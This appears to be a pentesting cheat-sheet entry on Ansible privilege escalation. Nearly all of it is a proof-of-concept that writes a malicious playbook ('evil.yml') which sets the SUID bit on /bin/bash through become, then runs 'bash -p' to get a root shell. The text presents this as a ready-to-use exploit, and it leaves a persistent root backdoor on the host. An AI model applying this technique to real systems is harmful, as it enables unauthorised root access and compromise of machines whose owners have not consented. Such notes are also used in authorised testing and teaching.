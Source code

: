 # Ansible

> If an ansible file is loaded by a root process : **Privilege Escalation**

## PoC

```bash
# Create a .yml file just like the other one
nano evil.yml
# Content :
- hosts: localhost
  tasks:
    - name: RShell
      command: chmod u+s /bin/bash
      become: true

# ---
# save the file CTRL+O CTRL+X
# ---

ls -lah /bin/bash
ansible-playbook evil.yml
bash -p
# root
```

